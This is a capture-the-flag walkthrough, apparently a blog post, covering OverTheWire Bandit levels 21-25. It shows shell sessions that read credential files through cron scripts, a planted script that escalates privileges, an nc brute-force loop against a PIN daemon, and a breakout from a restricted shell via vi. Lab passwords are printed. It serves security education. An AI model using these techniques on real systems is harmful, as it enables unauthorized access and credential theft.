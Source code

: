```yaml
---
layout: post
title:  "OverTheWire Bandit Levels 21-25"
tags: overthewire-bandit
---
```


## Level 21
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
```
bandit21@bandit:~$ cat /etc/cron.d/cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
bandit21@bandit:~$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@bandit:~$ ssh bandit22@localhost
bandit22@localhost's password:
```

## Level 22
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

**NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.**
```
bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit22@bandit:~$ cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
bandit22@bandit:~$ ssh bandit23@localhost
bandit23@localhost's password:
```

## Level 23
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

**NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!**

**NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…**
```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
bandit23@bandit:~$ cd /tmp/scottctaylor12
bandit23@bandit:/tmp/scottctaylor12$ touch bandit24-pass.sh
bandit23@bandit:/tmp/scottctaylor12$ chmod 777 bandit24-pass.sh
(WRITE SCRIPT)

bandit23@bandit:/tmp/scottctaylor12$ cat bandit24-pass.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/scottctaylor12/PASSWORD
chmod 666 /tmp/scottctaylor12/PASSWORD
bandit23@bandit:/tmp/scottctaylor12$ cp bandit24-pass.sh /var/spool/bandit24/
bandit23@bandit:/tmp/scottctaylor12$ cat PASSWORD
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
bandit23@bandit:/tmp/scottctaylor12$ ssh bandit24@localhost
bandit24@localhost's password:
```
## Level 24
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
```
bandit24@bandit:~$ cd /tmp/scottctaylor12
bandit24@bandit:/tmp/scottctaylor12$ touch brute-force-25.sh
bandit24@bandit:/tmp/scottctaylor12$ chmod 777 brute-force-25.sh
(EDIT brute-force-25.sh)
bandit24@bandit:/tmp/scottctaylor12$ cat brute-force-25.sh
#!/bin/bash
PASS=$(cat /etc/bandit_pass/bandit24)

for i in {0000..9999}
do
    echo $i
    echo $PASS $i | nc localhost 30002
done

bandit24@bandit:/tmp/scottctaylor12$ ./brute-force-25.sh >> output
(AN HOUR LATER.....)
bandit24@bandit:/tmp/scottctaylor12$ cat output | grep -i -A2 -B2 ^correct
5440
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is sh
bandit24@bandit:/tmp/scottctaylor12$ ssh bandit25@localhost
bandit24@localhost's password:
```

## Level 25
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
```
bandit25@bandit:~$ ls
bandit26.sshkey
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
..
Connection to localhost closed
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
(SHRINK WINDOW TO SHOW 3 LINES)
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
v
:set shell=/bin/bash
:shell
bandit26@bandit:~$
```

Continue to OverTheWire Bandit [Levels 26-30](https://scottctaylor12.github.io/2018/09/15/otw-bandit26-30.html)
